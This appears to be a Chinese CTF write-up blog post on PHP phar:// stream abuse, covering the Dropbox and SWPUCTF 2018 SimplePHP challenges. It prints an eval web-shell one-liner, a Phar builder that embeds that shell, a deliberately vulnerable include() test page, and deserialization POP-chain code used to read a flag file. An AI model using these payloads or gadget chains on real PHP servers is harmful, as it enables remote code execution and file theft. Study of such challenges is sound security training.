


<!DOCTYPE html>
<html lang="en" class="loading">
<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <title>华北赛区Dropbox - 月出从云</title>
    <meta name="apple-mobile-web-app-capable" content="yes" />
    <meta name="apple-mobile-web-app-status-bar-style" content="black-translucent">
    <meta name="google" content="notranslate" />
    <meta name="keywords" content="Fechin,"> 
    <meta name="description" content="1.知识点学习1.1 phar流自PHP5.3.0开始，php便支持该数据流


支持allow_url_fopen
no


支持allow_url_include
No


允许读取
Yes,"> 
    
    <link rel="alternative" href="atom.xml" title="月出从云" type="application/atom+xml"> 
    <link rel="icon" href="/img/1.ico"> 
    
<link rel="stylesheet" href="//cdn.jsdelivr.net/npm/gitalk@1/dist/gitalk.css">

    
<link rel="stylesheet" href="/css/diaspora.css">

	<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
    <script>
         (adsbygoogle = window.adsbygoogle || []).push({
              google_ad_client: "ca-pub-8691406134231910",
              enable_page_level_ads: true
         });
    </script>
    <script async custom-element="amp-auto-ads"
        src="https://cdn.ampproject.org/v0/amp-auto-ads-0.1.js">
    </script>
<meta name="generator" content="Hexo 5.2.0"></head>

<body class="loading">
    <span id="config-title" style="display:none">月出从云</span>
    <div id="loader"></div>
    <div id="single">
    <div id="top" style="display: block;">
    <div class="bar" style="width: 0;"></div>
    <a class="iconfont icon-home image-icon" href="javascript:;" data-url="http://example.com"></a>
    <div title="播放/暂停" class="iconfont icon-play"></div>
    <h3 class="subtitle">华北赛区Dropbox</h3>
    <div class="social">
        <div>
            <div class="share">
                <a title="获取二维码" class="iconfont icon-scan" href="javascript:;"></a>
            </div>
            <div id="qr"></div>
        </div>
    </div>
    <div class="scrollbar"></div>
</div>

    <div class="section">
        <div class="article">
    <div class='main'>
        <h1 class="title">华北赛区Dropbox</h1>
        <div class="stuff">
            <span>十月 29, 2020</span>
            

        </div>
        <div class="content markdown">
            <h1 id="1-知识点学习"><a href="#1-知识点学习" class="headerlink" title="1.知识点学习"></a>1.知识点学习</h1><h2 id="1-1-phar流"><a href="#1-1-phar流" class="headerlink" title="1.1 phar流"></a>1.1 phar流</h2><p>自PHP5.3.0开始，php便支持该数据流</p>
<table>
<thead>
<tr>
<th>支持allow_url_fopen</th>
<th>no</th>
</tr>
</thead>
<tbody><tr>
<td>支持allow_url_include</td>
<td>No</td>
</tr>
<tr>
<td>允许读取</td>
<td>Yes</td>
</tr>
<tr>
<td>允许写入</td>
<td>Yes</td>
</tr>
</tbody></table>
<p>在PHP的官网手册当中，该流用于解压phar文件，我们允许利用该流直接读取被压缩的phar文件，但是我们实战中却发现，该流允许我们读取任意一个文件，只要他们是经过压缩的文件，PHP会自动的解压文件，并且读取里面的PHP。</p>
<p>phar的参考文章：</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">https:&#x2F;&#x2F;blog.csdn.net&#x2F;Leroi_Liu&#x2F;article&#x2F;details&#x2F;86293701</span><br></pre></td></tr></table></figure>

<p>（感觉PHP有点垃圾..使用Phar文件，但是却完全没有任何的过滤，他将识别任何模块的后缀，直接将其解压，之后读取其中的PHP文件</p>
<p>例如我们构造一个test.php，我们将其压缩成test.zip，之后修改zip后缀为jpg，他还是会能够识别，并且读取其中的文件</p>
<h3 id="1-1-1-phar写🐎文件包含"><a href="#1-1-1-phar写🐎文件包含" class="headerlink" title="1.1.1 phar写🐎文件包含"></a>1.1.1 phar写🐎文件包含</h3><p>测试的代码如下：</p>
<p>index.php</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span> </span><br><span class="line"><span class="comment">//phar://./test.jpg/test.php</span></span><br><span class="line"><span class="keyword">include</span>($_POST[<span class="string">&#x27;url&#x27;</span>]);</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>

<p>test.php</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span> @<span class="keyword">eval</span>($_POST[<span class="string">&quot;cmd&quot;</span>]);<span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>

<p>我们可以利用如下代码生成一个phar文件，并且生成🐎</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line">@unlink(<span class="string">&quot;phar.phar&quot;</span>);</span><br><span class="line">$phar = <span class="keyword">new</span> Phar(<span class="string">&quot;phar.phar&quot;</span>); <span class="comment">//后缀名必须为phar</span></span><br><span class="line">$phar-&gt;startBuffering();</span><br><span class="line">$phar-&gt;setStub(<span class="string">&quot;&lt;?php __HALT_COMPILER(); ?&gt;&quot;</span>); <span class="comment">//设置stub;</span></span><br><span class="line"></span><br><span class="line"><span class="comment">//$phar-&gt;setMetadata($o); //将自定义的meta-data存入manifest</span></span><br><span class="line">$phar-&gt;addFromString(<span class="string">&quot;test.php&quot;</span>, <span class="string">&quot;&lt;?php eval(\$_POST[123]); ?&gt;&quot;</span>); <span class="comment">//添加要压缩的文件</span></span><br><span class="line"><span class="comment">//签名自动计算</span></span><br><span class="line">$phar-&gt;stopBuffering();</span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>利用如下：</p>
<p></p>
<h3 id="1-1-2-phar反序列化"><a href="#1-1-2-phar反序列化" class="headerlink" title="1.1.2 phar反序列化"></a>1.1.2 phar反序列化</h3><p>在以前的大部分事件，我们都是利用反序列化的函数，但是人们现在安全意识越来越高之后，这种利用方式越来越难。</p>
<p>但是Phar://读取文件phar的时候，会反序列化meta-data储存的信息</p>
<p>Phar文件的一个标准特征如下：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span> <span class="comment"><span class="keyword">__HALT_COMPILER</span>(); ?&gt;</span></span><br><span class="line"><span class="comment"> O:10:&quot;TestObject&quot;:0:&#123;&#125;   test.tx   GBMB</span></span><br></pre></td></tr></table></figure>

<p>我们可以发现Meta-data的内容就是以反序列化的形式储存的，利用Phar协议解析的时候都会反序列化，同时文件操作函数一般都能用伪协议流，所以Phar://的供给面还是相当广的。</p>
<p>所以满足如下条件的时候该类型序列化可以使用：</p>
<ul>
<li>可以上传Phar文件(或者文件自己使用Phar读取)</li>
<li>具有可利用的魔术方法</li>
<li>文件操作函数的参数可用</li>
</ul>
<p>例题：[SWPUCTF 2018]SimplePHP</p>
<p>首先就尝试读取一波文件file.php</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span> </span><br><span class="line">header(<span class="string">&quot;content-type:text/html;charset=utf-8&quot;</span>);  </span><br><span class="line"><span class="keyword">include</span> <span class="string">&#x27;function.php&#x27;</span>; </span><br><span class="line"><span class="keyword">include</span> <span class="string">&#x27;class.php&#x27;</span>; </span><br><span class="line">ini_set(<span class="string">&#x27;open_basedir&#x27;</span>,<span class="string">&#x27;/var/www/html/&#x27;</span>); </span><br><span class="line">$file = $_GET[<span class="string">&quot;file&quot;</span>] ? $_GET[<span class="string">&#x27;file&#x27;</span>] : <span class="string">&quot;&quot;</span>; </span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">empty</span>($file)) &#123; </span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;&lt;h2&gt;There is no file to show!&lt;h2/&gt;&quot;</span>; </span><br><span class="line">&#125; </span><br><span class="line">$show = <span class="keyword">new</span> Show(); </span><br><span class="line"><span class="keyword">if</span>(file_exists($file)) &#123; </span><br><span class="line">    $show-&gt;source = $file; </span><br><span class="line">    $show-&gt;_show(); </span><br><span class="line">&#125; <span class="keyword">else</span> <span class="keyword">if</span> (!<span class="keyword">empty</span>($file))&#123; </span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;file doesn\&#x27;t exists.&#x27;</span>); </span><br><span class="line">&#125; </span><br><span class="line"><span class="meta">?&gt;</span> </span><br></pre></td></tr></table></figure>

<p>Class.php</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">C1e4r</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $test;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params">$name</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;str = $name;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;test = <span class="keyword">$this</span>-&gt;str;</span><br><span class="line">        <span class="keyword">echo</span> <span class="keyword">$this</span>-&gt;test;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Show</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $source;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params">$file</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;source = $file;   <span class="comment">//$this-&gt;source = phar://phar.jpg</span></span><br><span class="line">        <span class="keyword">echo</span> <span class="keyword">$this</span>-&gt;source;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__toString</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        $content = <span class="keyword">$this</span>-&gt;str[<span class="string">&#x27;str&#x27;</span>]-&gt;source;</span><br><span class="line">        <span class="keyword">return</span> $content;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__set</span>(<span class="params">$key,$value</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;$key = $value;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">_show</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(preg_match(<span class="string">&#x27;/http|https|file:|gopher|dict|\.\.|f1ag/i&#x27;</span>,<span class="keyword">$this</span>-&gt;source)) &#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&#x27;hacker!&#x27;</span>);</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            highlight_file(<span class="keyword">$this</span>-&gt;source);</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__wakeup</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(preg_match(<span class="string">&quot;/http|https|file:|gopher|dict|\.\./i&quot;</span>, <span class="keyword">$this</span>-&gt;source)) &#123;</span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&quot;hacker~&quot;</span>;</span><br><span class="line">            <span class="keyword">$this</span>-&gt;source = <span class="string">&quot;index.php&quot;</span>;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Test</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $file;</span><br><span class="line">    <span class="keyword">public</span> $params;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;params = <span class="keyword">array</span>();</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__get</span>(<span class="params">$key</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;get($key);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">get</span>(<span class="params">$key</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="keyword">$this</span>-&gt;params[$key])) &#123;</span><br><span class="line">            $value = <span class="keyword">$this</span>-&gt;params[$key];</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            $value = <span class="string">&quot;index.php&quot;</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;file_get($value);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">file_get</span>(<span class="params">$value</span>)</span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        $text = base64_encode(file_get_contents($value));</span><br><span class="line">        <span class="keyword">return</span> $text;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>


<p>function.php</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span> </span><br><span class="line"><span class="comment">//show_source(__FILE__); </span></span><br><span class="line"><span class="keyword">include</span> <span class="string">&quot;base.php&quot;</span>; </span><br><span class="line">header(<span class="string">&quot;Content-type: text/html;charset=utf-8&quot;</span>); </span><br><span class="line">error_reporting(<span class="number">0</span>); </span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">upload_file_do</span>(<span class="params"></span>) </span>&#123; </span><br><span class="line">    <span class="keyword">global</span> $_FILES; </span><br><span class="line">    $filename = md5($_FILES[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>].$_SERVER[<span class="string">&quot;REMOTE_ADDR&quot;</span>]).<span class="string">&quot;.jpg&quot;</span>; </span><br><span class="line">    <span class="comment">//mkdir(&quot;upload&quot;,0777); </span></span><br><span class="line">    <span class="keyword">if</span>(file_exists(<span class="string">&quot;upload/&quot;</span> . $filename)) &#123; </span><br><span class="line">        unlink($filename); </span><br><span class="line">    &#125; </span><br><span class="line">    move_uploaded_file($_FILES[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>],<span class="string">&quot;upload/&quot;</span> . $filename); </span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&#x27;&lt;script type=&quot;text/javascript&quot;&gt;alert(&quot;上传成功!&quot;);&lt;/script&gt;&#x27;</span>; </span><br><span class="line">&#125; </span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">upload_file</span>(<span class="params"></span>) </span>&#123; </span><br><span class="line">    <span class="keyword">global</span> $_FILES; </span><br><span class="line">    <span class="keyword">if</span>(upload_file_check()) &#123; </span><br><span class="line">        upload_file_do(); </span><br><span class="line">    &#125; </span><br><span class="line">&#125; </span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">upload_file_check</span>(<span class="params"></span>) </span>&#123; </span><br><span class="line">    <span class="keyword">global</span> $_FILES; </span><br><span class="line">    $allowed_types = <span class="keyword">array</span>(<span class="string">&quot;gif&quot;</span>,<span class="string">&quot;jpeg&quot;</span>,<span class="string">&quot;jpg&quot;</span>,<span class="string">&quot;png&quot;</span>); </span><br><span class="line">    $temp = explode(<span class="string">&quot;.&quot;</span>,$_FILES[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]); </span><br><span class="line">    $extension = end($temp); </span><br><span class="line">    <span class="keyword">if</span>(<span class="keyword">empty</span>($extension)) &#123; </span><br><span class="line">        <span class="comment">//echo &quot;&lt;h4&gt;请选择上传的文件:&quot; . &quot;&lt;h4/&gt;&quot;; </span></span><br><span class="line">    &#125; </span><br><span class="line">    <span class="keyword">else</span>&#123; </span><br><span class="line">        <span class="keyword">if</span>(in_array($extension,$allowed_types)) &#123; </span><br><span class="line">            <span class="keyword">return</span> <span class="literal">true</span>; </span><br><span class="line">        &#125; </span><br><span class="line">        <span class="keyword">else</span> &#123; </span><br><span class="line">            <span class="keyword">echo</span> <span class="string">&#x27;&lt;script type=&quot;text/javascript&quot;&gt;alert(&quot;Invalid file!&quot;);&lt;/script&gt;&#x27;</span>; </span><br><span class="line">            <span class="keyword">return</span> <span class="literal">false</span>; </span><br><span class="line">        &#125; </span><br><span class="line">    &#125; </span><br><span class="line">&#125; </span><br><span class="line"><span class="meta">?&gt;</span> </span><br></pre></td></tr></table></figure>

<p>同时还拥有一个f1ag.php</p>
<p>直接访问的话会不允许，在show类当中放出了提示，pahr://phar.jpg</p>
<p> 查找POP链的过程是这样的：</p>
<p>Test的$text = base64_encode(file_get_contents($value));作为我们的终极目标</p>
<p>我们查看$value是从哪里传来的，发现一行：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$value = <span class="keyword">$this</span>-&gt;params[$key];</span><br></pre></td></tr></table></figure>

<p>之后查看，发现$key通过__get进行传导</p>
<p>于是构造</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$c-&gt;params[<span class="string">&#x27;source&#x27;</span>] = <span class="string">&quot;/var/www/html/f1ag.php&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>回到上面看，因为之前有echo，通过echo查找tostring</p>
<p>于是对source进行控制</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$content = <span class="keyword">$this</span>-&gt;str[<span class="string">&#x27;str&#x27;</span>]-&gt;source;</span><br></pre></td></tr></table></figure>

<p>对A进行反序列化即可。</p>
<h2 id="1-2-open-basedir"><a href="#1-2-open-basedir" class="headerlink" title="1.2 open_basedir"></a>1.2 open_basedir</h2><p>该函数是php用于基于x目录允许，利用该函数，PHP可以限制用户的读取文件范围，这也就很好的解释了为什么我们只能读取到../../index.php的内容，而无法读取到根目录下flag.txt的文件了</p>
<h1 id="2-做题思路"><a href="#2-做题思路" class="headerlink" title="2.做题思路"></a>2.做题思路</h1><h2 id="1-任意文件读取"><a href="#1-任意文件读取" class="headerlink" title="1.任意文件读取"></a>1.任意文件读取</h2><p>这道题允许下载文件，上传文件和删除文件，我们下载文件的时候可以任意修改文件名（但是由于open_basedir的限制，我们没法办法读取到flag</p>
<p>故利用如下方式能够找到class.php,index.php,download.php,delete.php的内容</p>
<p></p>
<h2 id="2-构造phar反序列化"><a href="#2-构造phar反序列化" class="headerlink" title="2.构造phar反序列化"></a>2.构造phar反序列化</h2><p>根据前面的知识，我们知道我们可以利用phar生成文件，构造pop链读取文件，问题就在于如何构造pop了，我们在这道题很明显要找到的函数就是file_get_contents，能找到File类下的close()类会使用，于是查找全文当中，看看有没有魔术方法能够使用到close类：</p>
<p>最终在User类中查找到：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">User</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $db;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">global</span> $db;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db = $db;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">   <span class="comment">// 中间略</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db-&gt;close();</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<p>于是第一次我尝试如此构造文件：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">User</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $db;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">global</span> $db;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db = $db;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__destruct</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;db-&gt;close();</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">File</span> </span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $filename=<span class="string">&quot;test.txt&quot;</span>;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">close</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> file_get_contents(<span class="keyword">$this</span>-&gt;filename);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br></pre></td></tr></table></figure>

<p>结果在本地fuzz的时候就发现这样子就压根没回显啊。后来才知道必须输出一下才能看见内容。。</p>
